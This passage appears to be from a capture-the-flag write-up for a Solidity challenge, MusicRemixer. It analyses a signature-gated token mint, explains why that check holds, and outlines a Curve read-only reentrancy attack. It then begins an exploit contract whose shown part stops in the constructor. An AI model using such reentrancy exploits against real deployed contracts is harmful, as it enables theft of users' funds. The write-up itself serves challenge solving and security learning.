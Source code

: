 There's a function in MusicRemixer that mint 1 ether of INST and VOCAL tokens
for us :

```solidity  
   function getMaterial(bytes memory redemptionCode) external {  
       if (usedRedemptionCode[redemptionCode])  
           revert CodeRedeemed();  
       bytes32 hash = ECDSA.toEthSignedMessageHash(abi.encodePacked("Music Remixer Pro Material"));  
       if (ECDSA.recover(hash, redemptionCode) != SIGNER)  
           revert InvalidCode();  
  
       usedRedemptionCode[redemptionCode] = true;

       FreqBand(equalizer.bands(1)).mint(msg.sender, 1 ether);  
       FreqBand(equalizer.bands(2)).mint(msg.sender, 1 ether);  
   }  
```

But we need a valid signature from this signer :

```solidity  
   address constant private SIGNER =
0x886A1C4798d270902E490b488C4431F8870bCDE3;  
```

In the constructor, it set this invalid signature as used :

```solidity  
       uint8 v = 28;  
       bytes32 r = hex"1337C0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DE1337";  
       bytes32 s = hex"1337C0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DEC0DE1337";  
       usedRedemptionCode[abi.encodePacked(r, s, v)] = true;  
```

If, we try to do ecrecover with this invalid signature, we will get the signer
address

It is using the openzeppelin ECDSA library, which checks for signature
malleability and signature length, so we can't bypass the signature check to
mint tokens there

But we have 1 ether, and we can just swap it to those tokens in the Equalizer
with the `equalize()` function which is just the swap function

Then we can just do the curve read only reentrancy

### Exploit contract :

```solidity  
// SPDX-License-Identifier: UNLICENSED  
pragma solidity ^0.8.19;

import "../src/MusicRemixer.sol";

contract reremixExploit {  
   MusicRemixer public musicRemixer;  
   SampleEditor public sampleEditor;  
   Equalizer public equalizer;  
   FreqBand public inst;  
   FreqBand public vocal;

   constructor(address _musicRemixer) payable {  
       require(msg.value == 0.5 ether, "not 0.5 ether");  
       musicRemixer = MusicRemixer(_musicRemixer);  
       sampleEditor = musicRemixer.sampleEditor();  
       equalizer = musicRemixer.equalizer();  
       inst = FreqBand(equalizer.bands(1));  
       vocal = FreqBand(equalizer.bands(2));  
```